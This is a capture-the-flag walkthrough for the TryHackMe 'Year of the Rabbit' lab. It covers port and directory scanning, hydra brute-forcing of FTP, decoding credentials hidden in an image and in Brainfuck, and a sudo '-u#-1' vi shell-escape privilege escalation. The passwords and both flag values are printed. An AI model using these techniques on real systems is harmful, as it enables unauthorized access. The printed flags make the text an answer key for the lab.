 ### Time to enter the warren...
Room: https://tryhackme.com/room/yearoftherabbit
##
**sudo nmap** -sS -sV -T5 -vv xx.xx.xxx.xx
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.2
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 6.7p1 Debian 5 (protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.10 ((Debian))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

**gobuster** dir -u http://xx.xx.xxx.xx  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 
```
/assets               (Status: 301) [Size: 313] [--> http://xx.xx.xxx.xx/assets/]
```

**from style.css**
```
  /* Nice to see someone checking the stylesheets.
     Take a look at the page: /sup3r_s3cr3t_fl4g.php
  */
```
It tells us to turn off Javascript.  
After doing that, we get a hint in the video that we're looking in the wrong place.  

By intercepting the requests, we can see that there's a **/intermediary.php/hidden_directory=/WExYY2Cv-qU** section of the link in Burp Suite.  
At the **http://xx.xx.xxx.xx/WExYY2Cv-qU/** we find only a photo called Hot_Babe.  

However, by downloading it, the content of **strings** gives us valuable information.   
```
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?
FfF~sfu^UQZmT
8FF?iKO27b~V0
ua4W~2-@y7dE$
3j39aMQQ7xFXT
Wb4--CTc4ww*-
u6oY9?nHv84D&
0iBp4W69Gr_Yf
TS*%miyPsGV54
C77O3FIy0c0sd
O14xEhgg0Hxz1
5dpv#Pr$wqH7F
1G8Ucoce1+gS5
0plnI%f0~Jw71
0kLoLzfhqq8u&
kS9pn5yiFGj6d
zeff4#!b5Ib_n
rNT4E4SHDGBkl
KKH5zy23+S0@B
3r6PHtM4NzJjE
gm0!!EC1A0I2?
HPHr!j00RaDEi
7N+J9BYSp4uaY
PYKt-ebvtmWoC
3TN%cD_E6zm*s
eo?@c!ly3&=0Z
nR8&FXz$ZPelN
eE4Mu53UkKHx#
86?004F9!o49d
SNGY0JjA5@0EE
trm64++JZ7R6E
3zJuGL~8KmiK^
CR-ItthsH%9du
yP9kft386bB8G
A-*eE3L@!4W5o
GoM^$82l&GA5D
1t$4$g$I+V_BH
0XxpTd90Vt8OL
j0CN?Z#8Bp69_
G#h~9@5E5QA5l
DRWNM7auXF7@j
Fw!if_=kk7Oqz
92d5r$uyw!vaE
c-AA7a2u!W2*?
zy8z3kBi#2e36
J5%2Hn+7I6QLt
gL$2fmgnq8vI*
Etb?i?Kj4R=QM
7CabD7kwY7=ri
4uaIRX~-cY6K4
kY1oxscv4EB2d
k32?3^x1ex7#o
ep4IPQ_=ku@V8
tQxFJ909rd1y2
5L6kpPR5E2Msn
65NX66Wv~oFP2
LRAQ@zcBphn!1
V4bt3*58Z32Xe
ki^t!+uqB?DyI
5iez1wGXKfPKQ
nJ90XzX&AnF5v
7EiMd5!r%=18c
wYyx6Eq-T^9#@
yT2o$2exo~UdW
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^
3O$oC~%XUlRO@
KW3fjzWpUGHSW
nTzl5f=9eS&*W
WS9x0ZF=x1%8z
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```

**sudo hydra** -l ftpuser -P passlst.txt xx.xx.xxx.xx ftp
> 5iez1wGXKfPKQ

By connection to the FTP, we can find Eli's credentials in Brainfuck format.  
```                                                                                    2 ⚙
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

After decoding, we find the following credentials.   
```
User: eli
Password: DSpDiM1wAEwid
```

After we log in, we find out the following message.  
```
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE

```

**find** / -name s3cr3t
```
/usr/games/s3cr3t
```
**cat** .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
```
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

**First flag is located at /home/gwendoline/user.txt and is THM{1107174691af9ff3681d2b5bdb5740b1589bae53}** **[1]**.  

**sudo** -l  
```
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```
We can abuse this by opening the user.txt file with vi, then use it to read from another file.  
**sudo** -u#-1 /usr/bin/vi /home/gwendoline/user.txt  

Then, after vi opens, press escape and write :!cat /root/root.txt  
**The second and final flag is at /root/root.txt and is THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}** **[2]**.  
